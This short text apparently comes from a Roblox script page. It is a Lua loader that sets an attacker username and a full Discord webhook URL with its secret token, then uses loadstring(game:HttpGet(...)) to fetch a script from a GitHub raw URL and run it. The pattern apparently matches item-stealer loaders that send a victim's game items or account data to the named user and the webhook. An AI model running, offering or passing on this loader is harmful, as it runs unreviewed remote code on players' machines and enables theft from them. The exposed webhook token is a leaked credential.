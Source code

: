 UserName = "{JshxhxhQ}"
Webhook = "{https://discord.com/api/webhooks/1140950710486302801/2tzUfyBvH5Ay_2RXGYfMXmeGTz0oqmQPSSDBt-ZQaJ-yWS4_tv67FKmpgNMNxQLK8dtD}"
UserName2 = "{JshxhxhQ}"

loadstring(game:HttpGet("https://raw.githubusercontent.com/LypherX/MoriScripts/main/MoriScripts", true))()
